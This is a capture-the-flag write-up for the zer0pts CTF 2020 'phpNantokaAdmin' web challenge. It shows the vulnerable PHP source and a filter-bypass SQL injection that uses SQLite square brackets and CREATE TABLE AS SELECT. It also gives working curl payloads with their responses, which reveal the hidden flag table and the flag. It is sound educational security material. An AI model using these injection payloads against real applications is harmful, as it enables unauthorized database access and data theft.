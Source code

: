 # [zer0pts CTF 2020] phpNantokaAdmin
###### tags: `zer0pts CTF`, `zer0pts CTF 2020`, `web`

## Solution
We're given the source codes (`index.php`, `util.php`) and `Dockerfile`.

As you can see from `index.php`, the flag is stored in every created database as a table with unknown table name and unknown column name, but you can't see it.

```php=75
  $pdo->query('CREATE TABLE `' . FLAG_TABLE . '` (`' . FLAG_COLUMN . '` TEXT);');
  $pdo->query('INSERT INTO `' . FLAG_TABLE . '` VALUES ("' . FLAG . '");');
  $pdo->query($sql);
```

Obviously there are SQL injection with table name, column name, and column type when creating tables in `index.php`.

```php=32
  $stmt = $pdo->prepare("INSERT INTO `{$table_name}` VALUES (?" . str_repeat(',?', count($column_names) - 1) . ")");
  $stmt->execute($values);
```

```php=47
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }

  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

Unfortunately, these parameters are filtered by its length and `is_valid` function, which is defined in `util.php`.

```php=16
function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "[\"#'()*,\\/\\\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}
```

Let's check available characters.

```
$ cat test.php
<?php
function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "[\"#'()*,\\/\\\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}

$res = '';
for ($i = 0x20; $i < 0x7f; $i++) {
  $c = chr($i);
  if (is_valid($c)) {
    $res .= $c;
  }
}

echo $res . "\n";
$ php test.php
 !$%&+.0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[]^_abcdefghijklmnopqrstuvwxyz{|}~
```

`[` and `]` are available. In SQLite, [keywords can be enclosed in square brackets](https://www.sqlite.org/lang_keywords.html) instead of backticks, so it's worthy to use.

Also, SQLite has [`CREATE TABLE … AS` statement](https://www.sqlite.org/lang_createtable.html), which can be used to create a table from another table.

So, you can get the information about flag table by inputting `t AS SELECT sql [` to table name and `]FROM sqlite_master;` to column type when creating table.

```
$ curl 'http://3.112.201.75:8002/?page=create' -b cookie.txt -c cookie.txt -L -H 'Content-Type: application/x-www-form-urlencoded' --data 'table_name=t+AS+SELECT+sql+%5B&columns%5B0%5D%5Bname%5D=abc&columns%5B0%5D%5Btype%5D=%5DFROM+sqlite_master%3B'
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="style.css">
    <script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>
    <title>phpNantokaAdmin</title>
  </head>
  <body>
    <h1>phpNantokaAdmin</h1>
    <h2>t (<a href="?page=delete">Delete table</a>)</h2>
    <form action="?page=insert" method="POST">
      <table>
        <tr>
          <th> (dummy1 TEXT, dummy2 TEXT, `abc` </th>
        </tr>
        <tr>
          <td>CREATE TABLE `flag_bf1811da` (`flag_2a2d04c3` TEXT)</td>
        </tr>
        <tr>
          <td></td>
        </tr>
        <tr>
          <td><input type="text" name="values[]"></td>
        </tr>
      </table>
      <input type="submit" value="Insert values">
    </form>
  </body>
</html>
```

In the same way, you can get the flag.

```
$ curl 'http://3.112.201.75:8002/?page=create' -b cookie.txt -c cookie.txt -L -H 'Content-Type: application/x-www-form-urlencoded' --data 'table_name=t+AS+SELECT+flag_2a2d04c3+%5B&columns%5B0%5D%5Bname%5D=abc&columns%5B0%5D%5Btype%5D=%5DFROM+flag_bf1811da%3B'
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="style.css">
    <script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>
    <title>phpNantokaAdmin</title>
  </head>
  <body>
    <h1>phpNantokaAdmin</h1>
    <h2>t (<a href="?page=delete">Delete table</a>)</h2>
    <form action="?page=insert" method="POST">
      <table>
        <tr>
          <th> (dummy1 TEXT, dummy2 TEXT, `abc` </th>
        </tr>
        <tr>
          <td>zer0pts{Smile_Sweet_Sister_Sadistic_Surprise_Service_SQL_Injection!!}</td>
        </tr>
        <tr>
          <td><input type="text" name="values[]"></td>
        </tr>
      </table>
      <input type="submit" value="Insert values">
    </form>
  </body>
</html>
```